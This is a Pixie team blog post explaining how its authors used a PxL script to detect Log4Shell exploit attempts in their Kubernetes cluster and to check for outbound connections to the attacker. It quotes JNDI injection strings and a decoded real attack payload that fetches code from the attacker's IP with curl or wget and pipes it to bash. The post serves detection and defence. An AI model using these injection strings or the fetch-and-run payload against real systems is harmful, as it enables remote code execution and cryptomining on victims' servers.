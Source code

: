 ```yaml
---
path: '/did-i-get-owned-by-log4shell'
title: 'Did I get owned by Log4Shell?'
date: 2021-12-10T06:00:00.000+00:00
featured_image: sos-emergency-exit.png
categories: ['Pixie Team Blogs']
authors: ['Omid Azizi', 'James Bartlett', 'Vihang Mehta']
emails: ['oazizi@pixielabs.ai', 'jamesbartlett@pixielabs.ai', 'vihang@pixielabs.ai']
---
```


_Are your [services impacted](https://www.lunasec.io/docs/blog/log4j-zero-day/#who-is-impacted) by this exploit? If so, start with the [mitigation](https://www.lunasec.io/docs/blog/log4j-zero-day/#permanent-mitigation) first._

Earlier today, [news](https://www.lunasec.io/docs/blog/log4j-zero-day/) broke about a serious 0-day exploit in the popular Java logging library `log4j`. The exploit – called `Log4Shell` – allows remote code execution (RCE) by entering certain strings into the log statement. This can be a serious security vulnerability if a server logs the inputs it receives over a public endpoint.

In this post, we'll show how we used Pixie to quickly check for `Log4Shell` attacks in our Kubernetes cluster.

## How Does Log4Shell Work?

In a nutshell, the `Log4Shell` exploit means that if a string containing a substring of the form `${jndi:ldap://1.1.1.1/a}`  is logged, then you may be exposed to a RCE attack. When this string is logged, `log4j` will make a request to the IP, and get a reference to a class file which will then get loaded into your Java application with JNDI. This means your Java application could then be used to execute arbitrary code of the attacker's choice.

Our goal is not to go into too much detail on `Log4Shell`, since others have already done a great job of that. Instead we're going to focus on how Pixie helped us identify whether we were under attack.

For more details on `Log4Shell`, you can check out this blog, which does a good job of explaining the exploit and mitigation: https://www.lunasec.io/docs/blog/log4j-zero-day.

## Are we being attacked?

We don't deploy Java services at Pixie so we were confident that this wasn't an issue for us. But the team was still curious about whether anyone was trying to attack us. Within minutes, a member of our team, James, put out this [PxL script](https://docs.px.dev/tutorials/pxl-scripts/) which checks for instances of the `Log4Shell` exploit:

```python
import px

# Get all HTTP requests automatically traced by Pixie.
df = px.DataFrame('http_events')

# Get the pod the HTTP request was made to.
df.pod = df.ctx['pod']

# Check HTTP requests for the exploit signature.
df.contains_log4j_exploit = px.contains(df.req_headers, '${jndi') or px.contains(df.req_body, '${jndi')

# Filter on requests that are attacking us with the exploit.
df = df[df.contains_log4j_exploit]

df = df[['time_', 'remote_addr', 'remote_port', 'req_headers', 'req_method', 'req_path', 'pod']]

px.display(df)
```

[log4j only needs to log a string like](https://www.lunasec.io/docs/blog/log4j-zero-day/#example-vulnerable-code) `${jndi:ldap://127.0.0.1/a}` to request and eventually execute a returned payload. [Pixie traces all the HTTP requests](https://docs.px.dev/about-pixie/data-sources/) in your Kubernetes cluster, and stores them for future querying. So in our script, we simply search over the `http_events` table for requests that contain the attack signature -  the `${jndi` string. [^1]

Running the script on our cluster, we immediately noticed some `Log4Shell` traffic:

<svg title="Pixie automatically traces all HTTP traffic flowing through your K8s cluster. Checking the HTTP request headers for the exploit signature exposes numerous attack requests on our staging cluster." src='jndi-http-logs.png' />

<svg title="The contents of one of the HTTP attack requests. Note the '${jndi' exploit signature with originating IP address." src='jndi-referrer-details.png' />

The exploit requests were hitting our public cloud-proxy service, where the User-Agent included the exploit string. In this case, the attacker hopes that we use log4j to log the User-Agent value. We investigated the originating IP address, `45.155.205.233` and discovered that it was based in Russia.

Another team member, Vihang, then figured out that the payload of the exploit string is the following:

```bash
$ base64 -d <<< "KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC8zNC4xMDIuMTM2LjU4OjQ0M3x8d2dldCAtcSAtTy0gNDUuMTU1LjIwNS4yMzM6NTg3NC8zNC4xMDIuMTM2LjU4OjQ0Myl8YmFzaA=="
(curl -s 45.155.205.233:5874/34.102.136.58:443||wget -q -O- 45.155.205.233:5874/34.102.136.58:443)|bash%
```

The situation around the `Log4Shell` exploit is still evolving, but [tweets](https://twitter.com/GossiTheDog/status/1469322120840708100) indicate that this payload contains a Bitcoin miner.

## Are we leaking?

Now we know that some attacker tried to scan us with the `Log4Shell` exploit. Our next question was whether the attacker succeeded. Again, Pixie doesn’t rely on Java services, but we did want to know how a Java user could detect a successful attack.

A successful exploit requires the attacker to “phone home” with sensitive information, so we need to check if any connections were made back to the `45.155.205.233` IP that we found in the attack.

We can use Pixie’s existing `px/outbound_conns` script to check for this. This script shows a list of connections from our pods made to endpoints outside the k8s cluster. This script has an optional IP filter field that we populate to see if any connections (regardless of protocol) are made to that IP.

In this case, when we run the script, we see that we have no such connections, as expected:

<svg title="Using the `px/outbound_conns` script to check for all outbound connections from our pods, filtered by the IP address of the attacker shows that no connections were returned to the attacking IP." src='outboundconns.png' />

While we caught no such instances, for a user who was using Java, any outbound connections to the attacker would be recorded.

## Check if your cluster is being attacked

When a 0-day exploit is published, there’s a rush by attackers to take advantage. At the same time, developers of cloud services are scrambling to see if they are exposed and to patch any vulnerabilities.

To quickly check if your cluster is being attacked, you can:

1. [Install Pixie](https://docs.px.dev/installing-pixie/install-guides/) on your Kubernetes cluster.
2. Save the following script as `log4shell.pxl`.

```bash
import px

# Get all HTTP requests automatically traced by Pixie.
df = px.DataFrame('http_events')

# Get the pod the HTTP request was made to.
df.pod = df.ctx['pod']

# Check HTTP requests for the exploit signature.
df.contains_log4j_exploit = px.contains(df.req_headers, '${jndi') or px.contains(df.req_body, '${jndi')

# Filter on requests that are attacking us with the exploit.
df = df[df.contains_log4j_exploit]

df = df[['time_', 'remote_addr', 'remote_port', 'req_headers', 'req_method', 'req_path', 'pod']]

px.display(df)
```

3. Run the custom PxL script using Pixie’s [Live CLI](https://docs.px.dev/using-pixie/using-cli/#use-the-live-cli), using the -f flag to provide the script’s filename:

```bash
px live -f <path to script>/log4shell.pxl
```

If you discover that you are being attacked, you can read about mitigation steps [here](https://www.lunasec.io/docs/blog/log4j-zero-day).
[^1]: Unfortunately detecting exploit attempts are a moving target: [scanners are trying new means of obfuscating the exploit](https://twitter.com/sans_isc/status/1469653801581875208).

Questions? Find us on [Slack](https://slackin.px.dev/) or Twitter at [@pixie_run](https://twitter.com/pixie_run).
